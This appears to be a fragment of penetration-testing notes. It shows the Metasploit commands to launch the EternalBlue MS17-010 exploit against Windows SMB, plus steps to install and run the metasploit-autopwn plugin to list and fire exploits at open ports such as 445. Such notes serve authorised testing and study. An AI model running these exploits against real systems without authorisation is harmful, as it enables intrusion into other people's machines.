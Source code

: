 ```bash
use exploit/windows/smb/ms17_010_eternalblue
options
# always check Payload options
run
```

> [**metasploit-autopwn**](https://github.com/hahwul/metasploit-autopwn) - a Metasploit plugin for easy exploit & vulnerability attack.
>
> - *takes a look at the Metasploit database and provides a list of exploit modules to use for the already enumerated services* 

- On a Kali terminal

```bash
wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
sudo mv db_autopwn.rb /usr/share/metasploit-framework/plugins/
```

- On `msfconsole`

```bash
load db_autopwn
```

```bash
db_autopwn -p -t
# Enumerates exploits for each of the open ports
```

```bash
db_autopwn -p -t -PI 445
# Limit to only the 445 port
```
